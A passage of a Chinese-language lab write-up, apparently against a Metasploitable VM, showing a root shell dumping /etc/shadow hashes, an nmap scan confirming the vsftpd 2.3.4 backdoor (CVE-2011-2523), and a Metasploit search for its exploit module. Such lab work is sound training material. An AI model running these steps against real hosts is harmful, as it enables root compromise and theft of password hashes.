 ```bash
uid=0(root) gid=0(root)
cat /etc/shadow
root:$1$7DSzfpME$3a45316tWZF9TZWi48eub/:19107:0:99999:7:::
...
msfadmin:$1$FKo1UCia$KxgF2WmQNsKY2lC3nPp4n/:19107:0:99999:7:::
...
```

![4.2-samba](https://raw.githubusercontent.com/BIIIANG/pic/main/202205072359129.png)

#### 4.1.2 `FTP`

- 扫描漏洞：

```shell
[4:04:58] xubiang:EXP1 $ ls /usr/share/nmap/scripts | grep vsftpd            
ftp-vsftpd-backdoor.nse
[4:05:11] xubiang:EXP1 $ nmap -script ftp-vsftpd-backdoor -p 21 192.168.43.38
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-08 04:05 EDT
Nmap scan report for 192.168.43.38
Host is up (0.083s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  BID:48539  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       https://www.securityfocus.com/bid/48539
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523

Nmap done: 1 IP address (1 host up) scanned in 1.60 seconds
```

![4.2.1-扫描](https://raw.githubusercontent.com/BIIIANG/pic/main/202205081609622.png)

- 利用漏洞：

```shell
[4:05:43] xubiang:EXP1 $ msfconsole

...

msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


```